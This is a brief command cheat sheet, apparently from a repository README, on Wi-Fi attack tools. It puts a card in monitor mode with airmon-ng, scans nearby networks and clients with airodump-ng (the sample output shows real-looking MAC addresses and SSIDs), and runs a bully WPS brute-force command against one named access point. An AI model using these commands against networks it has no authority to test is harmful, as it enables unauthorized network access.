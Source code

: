 To check available interfaces 
```
airmon-ng
```

To change an interface into monitor mode
```
airmon-ng [interface]
```

To find available close wifis
```
airodump-ng [interacemon]
```

For example 

```
STATION            PWR   Rate    Lost    Frames  Notes  Probes

 (not associated)   D0:6F:4A:A2:39:B6  -81    0 - 6    125       59         Ralink_ziqiang                                             
 (not associated)   FC:6B:F0:77:80:2E  -82    0 - 1     52      111         Moufida          
```

```bash
[kdc saief1999]bully mon0 -b FC:3F:7C:07:D4:AC -e TOPNETFDF137EA -c 10

```

